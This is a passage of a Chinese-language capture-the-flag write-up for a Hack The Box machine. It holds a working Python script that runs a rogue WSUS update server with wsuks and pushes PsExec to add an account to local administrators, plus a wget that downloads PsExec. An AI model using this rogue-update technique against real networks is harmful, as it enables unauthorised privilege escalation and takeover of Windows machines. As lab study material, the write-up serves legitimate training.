

#### 搭建wsus服务器

`wget https://live.sysinternals.com/tools/PsExec64.exe`

```
import ssl, sys, os, logging, threading
from functools import partial
from http.server import HTTPServer

# Stub the ARP / nftables module before wsuks' server imports it
sys.modules['wsuks.lib.router'] = type(sys)('stub')
sys.modules['wsuks.lib.router'].Router = object

from wsuks.lib.logger import initLogger
initLogger(debug=False)
from wsuks.lib.wsusserver import WSUSUpdateHandler, WSUSBaseServer

HOST = '10.10.17.76'
EXE  = './PsExec64.exe'

COMMAND = ('/accepteula /s cmd.exe /c "'
           'net localgroup administrators msa_health$ /add 2>&1 > C:\\Share\\Logs\\PWN.txt & '
           'net localgroup administrators >> C:\\Share\\Logs\\PWN.txt 2>&1 & '
           'icacls C:\\Share\\Logs\\PWN.txt /grant Everyone:F"')

exe_bytes = open(EXE, 'rb').read()
h = WSUSUpdateHandler(exe_bytes, os.path.basename(EXE), f'http://{HOST}:8530')
h.set_resources_xml(COMMAND)
log = logging.getLogger('wsuks')

def serve(port, use_tls):
    httpd = HTTPServer((HOST, port), partial(WSUSBaseServer, h))
    if use_tls:
        ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
        ctx.load_cert_chain('./wsus_srv_cert.pem', './wsus_srv_key.pem')
        httpd.socket = ctx.wrap_socket(httpd.socket, server_side=True)
        log.info(f'HTTPS WSUS on {HOST}:{port}')
    else:
        log.info(f'HTTP content on {HOST}:{port}')
    httpd.serve_forever()

threading.Thread(target=serve, args=(8530, False), daemon=True).start()
serve(8531, True)
```

#### python运行之后过2分钟就会被请求


#### 查看执行结果


#### 重新登录msa_health$，在toby.brynleigh用户桌面找到了flag


## 参考
- https://github.com/ZhengJJ05/WriteUp/blob/main/HTB/Season10/Logging/Logging.md